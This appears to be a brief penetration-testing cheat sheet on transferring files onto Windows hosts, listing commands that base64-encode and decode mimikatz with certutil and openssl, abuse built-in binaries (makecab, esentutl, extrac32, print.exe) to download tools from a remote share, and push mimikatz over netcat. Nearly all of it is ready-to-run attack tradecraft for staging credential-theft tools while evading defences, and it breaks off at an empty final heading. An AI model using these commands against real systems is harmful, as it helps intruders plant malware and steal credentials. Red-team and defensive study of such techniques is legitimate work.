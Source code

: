 ## certutil.exe base64

`certutil.exe -encode mimikatz.exe mimikatz.txt`

`certutil.exe -decode mimikatz.txt mimikatz.exe`


## openssl base64

`openssl.exe enc -base64 -in mimikatz.exe -out mimikatz.txt`

`openssl.exe enc -base64 -d -in mimikatz.txt -out mimikatz.exe`


## WebDAV Downloaders


### makecab.exe

`C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab`


### esentutl.exe

`C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o`


### extrac32.exe

`C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt`


### print.exe

`C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe`

Links:

https://twitter.com/Oddvarmoe/status/984749424395112448

for a more complete list of WebDAV downloaders check the LOLBINS/LOLBAS project created by @api0cradle:
https://github.com/LOLBAS-Project/LOLBAS


## Netcat

`nc -nlvp 8000 > mimikatz.exe`

`nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe`


## OpenSSL
